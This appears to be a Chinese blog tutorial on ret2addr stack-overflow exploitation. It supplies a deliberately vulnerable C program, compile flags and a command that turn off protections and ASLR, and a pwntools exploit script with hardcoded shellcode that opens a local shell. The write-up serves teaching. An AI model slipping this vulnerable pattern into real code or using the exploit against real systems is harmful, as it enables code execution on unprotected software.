 ```yaml
---
title:  Pwn 入门（ret2addr)
permalink: pwn-ret2addr
date: 2019-09-15 11:20:45
tags: 
 - blog
 - Pwn
 - 网安
categories:
 - 网安
 - Note
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 `ulimit -c unlimited`。
- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。
- 用 `gdb 程序名称 core`打开 core 文件。
- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。
- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

```python
from pwn import *

# context.log_level = 'debug'

p = process("./vuln")

payload = b'a' * 92

payload += p32(0xffffd570)
payload += b"\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload += b"\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload += b"\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload += b"\x32\xc1\x51\x69\x30\x30\x74\x69"
payload += b"\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload += b"\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）